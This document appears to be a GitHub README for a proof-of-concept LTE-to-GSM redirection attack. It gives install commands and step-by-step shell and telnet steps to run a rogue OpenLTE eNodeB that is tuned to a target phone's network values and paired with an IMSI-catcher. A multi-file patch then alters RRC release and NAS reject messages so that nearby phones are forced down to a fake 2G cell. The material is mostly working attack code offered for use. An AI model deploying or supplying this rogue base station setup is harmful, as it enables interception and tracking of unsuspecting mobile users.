 Redirect 4G->2G (Simplified version)
====================================

#Install (Working on Ubuntu 20.04.4)

.. code:: bash

   git clone https://github.com/bbaranoff/OpenLTE2GSM
   cd OpenLTE2GSM
   sudo bash install.sh

#Running LTE Redirection Attack

Redirect attack from long term evolution (LTE 4G) to global system
mobile (GSM 2G): article in progress

Tested with : LimeSDR-Mini + 2 Motorola (C1XX series osmocom-bb
compatibles) or BladeRF-xA4 + 2 Motorola or BladeRF-xA4 + LimeSDR-Mini

Phone in 2G/3G/4G mode This article is in progress and is just a PoC The
attack step are run the IMSI-catcher into arfcn 514 follow (see Build
IMSI-catcher) run the 4G redirector as follow

Shell #1

.. code:: bash

   sudo LTE_fdd_enodeb

Shell #2

.. code:: bash

   telnet localhost 30000
   write rx_gain 30
   write tx_gain 80
   write mcc 215
   write mnc 15
   write band 7
   write dl_earfcn 3350
   write tracking_area_code 6604

(change with your ue values be careful that the earfcn is in the band
you can have tracking_area_code via mobile testing mode \*#0011# on
samsung or \*#*#4636#*#\* on OnePlus for example)

Shell #2

.. code:: bash

   start

wait… and when you have “ok” answer in shell #2 and … enjoy !

.. code:: patch

   --- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
   +++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
   @@ -11698,13 +11698,28 @@
            liblte_value_2_bits(0, &msg_ptr, 2);
    
            // Optional indicators
   -        liblte_value_2_bits(0, &msg_ptr, 1);
   +        liblte_value_2_bits(1, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
    
            // Release cause
            liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);
    
   +// redirectedcarrierinfo
   +// geran // choice
   +liblte_value_2_bits(1, &msg_ptr, 4);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// dcs1800
   +liblte_value_2_bits(0, &msg_ptr, 1);
   +// Choice of following ARFCN
   +liblte_value_2_bits(0, &msg_ptr, 2);
   +// explicit list
   +liblte_value_2_bits(1, &msg_ptr, 5);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// Note that total bits should be octet aligned,
   +// if not, pad it with zeros.
            // Fill in the number of bits used
            msg->N_bits = msg_ptr - msg->msg;
    
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
   @@ -106,6 +106,7 @@
        // Message Parsers
        void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
   +    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
        void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   @@ -125,6 +126,8 @@
        // Message Senders
        void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
   @@ -99,18 +99,21 @@
    typedef enum{
        LTE_FDD_ENB_MME_PROC_IDLE = 0,
        LTE_FDD_ENB_MME_PROC_ATTACH,
   +    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
        LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
        LTE_FDD_ENB_MME_PROC_DETACH,
        LTE_FDD_ENB_MME_PROC_N_ITEMS,
    }LTE_FDD_ENB_MME_PROC_ENUM;
    static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                      "ATTACH",
   +                                         "TAU REQUEST",
                                                                                      "SERVICE REQUEST",
                                                                                      "DETACH"};
    
    typedef enum{
        LTE_FDD_ENB_MME_STATE_IDLE = 0,
        LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
   +LTE_FDD_ENB_MME_STATE_TAU_REJECT,
        LTE_FDD_ENB_MME_STATE_REJECT,
        LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
        LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
   @@ -126,7 +129,7 @@
    }LTE_FDD_ENB_MME_STATE_ENUM;
    static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
                                                                                        "ID REQUEST IMSI",
   -                                                                                    "REJECT",
   +                                                                       "REJECT",
                                                                                        "AUTHENTICATE",
                                                                                        "AUTH REJECTED",
                                                                                        "ENABLE SECURITY",
   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
   @@ -204,6 +204,10 @@
            case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
                parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
                break;
   +        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
   +            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
   +            break;
   +
            case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
                parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
                break;
   @@ -655,6 +659,16 @@
            }
        }
    }
   +void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
   +                                           LTE_fdd_enb_user       **user,
   +                                           LTE_fdd_enb_rb         **rb)
   +{
   +    // Set the procedure
   +
   +(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
   +(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
   +
   +
    void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                       LTE_fdd_enb_user       *user,
                                                       LTE_fdd_enb_rb         *rb)
   @@ -864,7 +878,7 @@
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                    user->set_id(hss->get_user_id_from_imei(imei_num));
                }else{
   -                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
   +                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
                }
            }else{
   @@ -1195,6 +1209,9 @@
            user->prepare_for_deletion();
            send_attach_reject(user, rb);
            break;
   + case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
   +        send_tracking_area_update_reject(user, rb);
   +break;
        case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
            send_authentication_request(user, rb);
            break;
   @@ -1397,6 +1414,52 @@
                          (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                          sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
    }
   +
   +
   +
   +
   +void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
   +                                         LTE_fdd_enb_rb   *rb)
   +{
   +    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
   +    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
   +    LIBLTE_BYTE_MSG_STRUCT                   msg;
   +     ta_update_rej.emm_cause = user->get_emm_cause();
   +     ta_update_rej.t3446_present = false;
   +     liblte_mme_pack_tracking_area_update_reject_msg(
   +     &ta_update_rej,
   +     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
   +     user->get_auth_vec()->k_nas_int,
   +     user->get_auth_vec()->nas_count_dl,
   +     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
   +     &msg);
   +    // Queue the NAS message for RRC
   +    rb->queue_rrc_nas_msg(&msg);
   +
   +    // Signal RRC for NAS message
   +    nas_msg_ready.user = user;
   +    nas_msg_ready.rb   = rb;
   +    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
   +                      LTE_FDD_ENB_DEST_LAYER_RRC,
   +                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
   +                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
   +
   +    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
   +// Unpack the message
   +    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
   +
   +    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
   +                                  user->get_imsi_str().c_str(),
   +                                  user->get_imei_str().c_str());
   +
   +    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
   +}
   +
   +
   +
   +
   +
   +
    void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                             LTE_fdd_enb_rb   *rb)
    {
   @@ -1412,7 +1475,7 @@
            imsi_num = user->get_temp_id();
        }
    
   -    attach_rej.emm_cause           = user->get_emm_cause();
   +    attach_rej.emm_cause           = 2;
        attach_rej.esm_msg_present     = false;
        attach_rej.t3446_value_present = false;
        liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
   @@ -229,7 +229,7 @@
        try
        {
            // Setup the USRP
   -        if(devs[idx-1]["type"] == "x300")
   +        if(devs[idx-1]["type"] == "soapy")
            {
                devs[idx-1]["master_clock_rate"] = "184320000";
                master_clock_set                 = true;
   @@ -252,7 +252,6 @@
                usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
                usrp->set_tx_gain(tx_gain);
                usrp->set_rx_gain(rx_gain);
   -
                // Setup the TX and RX streams
                tx_stream  = usrp->get_tx_stream(stream_args);
                rx_stream  = usrp->get_rx_stream(stream_args);
   @@ -822,7 +821,7 @@
            buffer_size = 1024;
        }
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_TX,
   +                                BLADERF_TX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -842,7 +841,7 @@
    
        // Setup sync RX
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_RX,
   +                                BLADERF_RX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -974,7 +973,7 @@
        if(radio_params->init_needed)
        {
            // Assume RX_timestamp and TX_timestamp difference is 0
   -        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
   +        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
            next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
            metadata_rx.flags     = 0;
            metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes
